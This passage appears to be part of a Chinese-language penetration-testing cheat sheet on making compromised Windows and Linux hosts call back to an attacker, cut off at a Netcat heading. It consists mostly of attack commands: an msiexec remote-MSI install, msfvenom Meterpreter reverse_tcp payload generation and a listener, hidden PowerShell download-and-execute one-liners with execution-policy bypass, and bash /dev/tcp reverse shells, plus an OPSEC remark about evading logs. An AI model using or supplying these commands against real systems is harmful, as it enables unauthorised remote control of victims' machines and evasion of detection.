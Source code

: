 上线。

```powershell
msiexec /q /i http:<Host>/attack.msi
```

*OPSEC：运行后不知道 `%TEMP%` 是否存在日志，需确认（这条待确认）*[https://3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E4%B8%AD%E7%9A%84msiexec#:~:text=%E6%89%A7%E8%A1%8C%E5%90%8E%E4%BC%9A%E5%9C%A8%25TEMP%25%E4%B8%8B%E7%94%9F%E6%88%90MSI%E7%9A%84log%E6%96%87%E4%BB%B6%EF%BC%8C%E5%A6%82%E5%9B%BE](https://3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E4%B8%AD%E7%9A%84msiexec#:~:text=%E6%89%A7%E8%A1%8C%E5%90%8E%E4%BC%9A%E5%9C%A8%25TEMP%25%E4%B8%8B%E7%94%9F%E6%88%90MSI%E7%9A%84log%E6%96%87%E4%BB%B6%EF%BC%8C%E5%A6%82%E5%9B%BE)\*

#### 2.1.8 exe 可执行文件

生成 Payload。

```plaintext
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<Host> lport=<Port> -f exe -o attack.exe
```

MSF 监听。

```plaintext
handler -p windows/x64/meterpreter/reverse_tcp -H <Host> -P <Port>
```

上线。

```powershell
powershell (New-Object Net.WebClient).DownloadString('http://<Host>/attack.bat', 'attack.exe');start attack.exe

powershell -w hidden -ep bypass -nop (New-Object Net.WebClient).DownloadString('http://<Host>/attack.exe', 'attack.exe');start-process attack.exe
```

### 2.2 Linux

#### 2.2.1 Bash

控制端将输入传输到被控端执行，被控端也要将执行返回的内容输出到控制端完成交互。

```bash
// 返回部分交互式 Shell，没有 [Username@HostName CurrentDir]
bash -i > /dev/tcp/<IP>/<Port> 0>&1 2>&1

// 能够返回完整可交互 Shell
bash -i &> /dev/tcp/<IP>/<Port> 0>&1
```

bash -i

/dev/tcp

0>&1

2>&1，2 是错误输出，>& 是错误输出重定向，1 是标准输出，连起来是将错误内容输出重定向到标准输出里。

#### 2.2.2 Netcat
